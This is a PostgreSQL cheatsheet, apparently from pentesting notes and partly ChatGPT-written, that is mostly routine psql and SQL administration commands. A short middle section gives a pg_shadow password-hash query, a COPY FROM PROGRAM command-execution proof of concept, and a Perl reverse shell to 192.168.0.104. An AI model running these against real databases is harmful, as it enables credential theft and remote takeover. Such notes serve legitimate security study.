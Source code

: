 # PostgreSQL Cheatsheet

**Warning parts of this article were created with ChatGTP 3.5 and human consultation of the [PostgreSQL Documentation](https:--www.postgresql.org/docs/)**

```sql
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>

postgres=# \? -- Get Help
postgres=# \list                     -- list all databases
postgres=# \l                        -- Shortform List databases 
postgres=# \c                        -- use database
postgres=# \c <DATABASE>             -- use specific database
postgres=# \s                        -- command history
postgres=# \q                        -- quit
<DATABASE>=# \dt                     -- list tables from current schema
<DATABASE>=# \dt *.*                 -- list tables from all schema
<DATABASE>=# \dt+ -- show size and description
<DATABASE>=# \du                     -- list users roles
<DATABASE>=# \du+                    -- list users roles
<DATABASE>=# SELECT user;            -- get current user
<DATABASE>=# TABLE <TABLE>;          -- select table
<DATABASE>=# SELECT * FROM users;    -- select everything from users table
<DATABASE>=# SHOW rds.extensions;    -- list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    -- read credentials
<DATABASE>=# select * from TabLeNameHeRE -- Case insensitive
```

[HackTricks](https:--book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce) states that *"Since [version 9.3](https:--www.postgresql.org/docs/9.3/release-9-3.html) only **super users** and member of the group `**pg_execute_server_program**` can use copy for RCE.

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

#### More Administrative Commands

Creating and Managing Databases
```sql
-- Create a new database
CREATE DATABASE database_name;
-- Drop a database
DROP DATABASE database_name;
-- Create a new table
CREATE TABLE table_name (
    column_name1 datatype,
    column_name2 datatype,
    ...
);
```

Creating and Managing Databases 
```sql
-- Delete a table
DROP TABLE table_name;
-- Insert data into a table
INSERT INTO table_name (column1, column2, ...) VALUES (value1, value2, ...);
```

Querying Data 
```sql
-- Retrieve all records from a table
SELECT * FROM table_name;
-- Retrieve specific columns and filter results
SELECT column1, column2 FROM table_name WHERE condition;
-- Aggregate functions (e.g., SUM, AVG, COUNT)
SELECT AVG(column) FROM table_name;
-- Joining tables
SELECT column1, column2 FROM table1 JOIN table2 ON table1.column = table2.column;
```

Updating and Deleting
```sql
-- Update records
UPDATE table_name SET column = value WHERE condition;
-- Delete records
DELETE FROM table_name WHERE condition;
```

Indexes
```sql
-- Create an index
CREATE INDEX index_name ON table_name (column_name);
-- Drop an index
DROP INDEX index_name;
```

User Management
```sql
-- Create a new user
CREATE USER username WITH PASSWORD 'password';
-- Grant privileges to a user
GRANT privilege ON table_name TO username;
-- Revoke privileges from a user
REVOKE privilege ON table_name FROM username;
-- Change a user's password
ALTER USER username WITH PASSWORD 'new_password';
```

Backup and Restore
```bash
# Create a backup
pg_dump -h hostname -d database_name -U username -f backup.sql
# Restore from backup
psql -h hostname -d database_name -U username -f backup.sql
```


## References

[PostgreSQL Documentation](https:--www.postgresql.org/docs/)
[postgresqltutorial](https:--www.postgresqltutorial.com/postgresql-administration/postgresql-show-tables/)
[0xsyr0](https:--github.com/0xsyr0/OSCP#postgresql) 
[HackTricks](https:--book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)